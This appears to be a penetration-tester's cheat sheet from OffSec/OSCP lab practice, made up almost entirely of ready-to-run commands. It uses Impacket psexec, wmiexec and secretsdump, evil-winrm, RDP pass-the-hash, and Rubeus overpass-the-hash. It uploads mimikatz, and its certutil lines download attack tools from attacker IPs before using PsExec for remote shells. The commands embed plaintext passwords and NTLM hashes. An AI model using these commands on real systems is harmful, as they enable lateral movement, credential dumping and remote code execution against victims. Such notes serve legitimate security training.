 ## Impacket - Establish connections with credentials

```jsx
impacket-psexec administrator:']12FIYiy&Frtsz'@192.168.157.122
```

```jsx
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:1f006e5b3ba84ddc6690f4bb2aa559c8 Administrator@192.168.157.122
```

```jsx
lput mimikatz.exe
lget mimikatz.log
```

```jsx
impacket-wmiexec jim:'Castello1!'@192.168.209.189
```

```jsx
evil-winrm -i 172.16.238.83 -u 'wario' -p 'Mushroom!'
```

```jsx
evil-winrm -i 172.16.134.7 -u 'relia.com\Administrator' -p 'vau!XCKjNQBv2$'
```

```jsx
upload <file>
download <file>
```

```jsx
secretsdump.py hutch.offsec/administrator:'9%GR6qN[.#)x4i'@192.168.219.122
```

```jsx
impacket-mssqlclient sql_svc@10.10.137.148 -windows-auth
```

[https://github.com/Mr-Un1k0d3r/SCShell](https://github.com/Mr-Un1k0d3r/SCShell)

## RDP

```jsx
xfreerdp /u:offsec /d:oscp.lab /p:Seawater! +clipboard /cert:ignore
xfreerdp /u:offsec /d:oscp.lab /pth:<hash> +clipboard /cert:ignore
```

### TTY windows

[ConPtyShell/Invoke-ConPtyShell.ps1 at master · antonioCoco/ConPtyShell](https://github.com/antonioCoco/ConPtyShell/blob/master/Invoke-ConPtyShell.ps1)

## Overpass-the-hash

```jsx
certutil -split -urlcache -f http://192.168.45.228/Rubeus.exe
.\Rubeus.exe asktgt /domain:jurassic.park /user:velociraptor /rc4:2a3de7fe356ee524cc9f3d579f2e0aa7 /ptt
.\Rubeus.exe asktgt /domain:access.offsec /user:svc_mssql /password:trustno1 /ptt
# view tickets
klist
# get cmd shell
certutil -split -urlcache -f http://192.168.45.214/PsExec.exe
.\PsExec.exe -accepteula \\labwws02.jurassic.park cmd
```
